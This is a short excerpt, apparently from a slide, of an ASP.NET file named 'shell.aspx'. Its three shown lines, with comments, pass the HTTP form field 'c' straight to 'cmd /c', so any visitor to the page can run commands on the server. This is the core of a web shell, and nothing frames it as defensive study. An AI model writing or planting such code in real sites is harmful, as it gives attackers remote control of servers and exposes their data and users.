

# shell.aspx
80 // create the ProcessStartInfo using "cmd" as the program to be run, and "/c " as the parameters.
81 // "/c" tells cmd that we want it to execute the command that follows, and exit.
82 System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo("cmd", "/c " + Request.Form["c"]);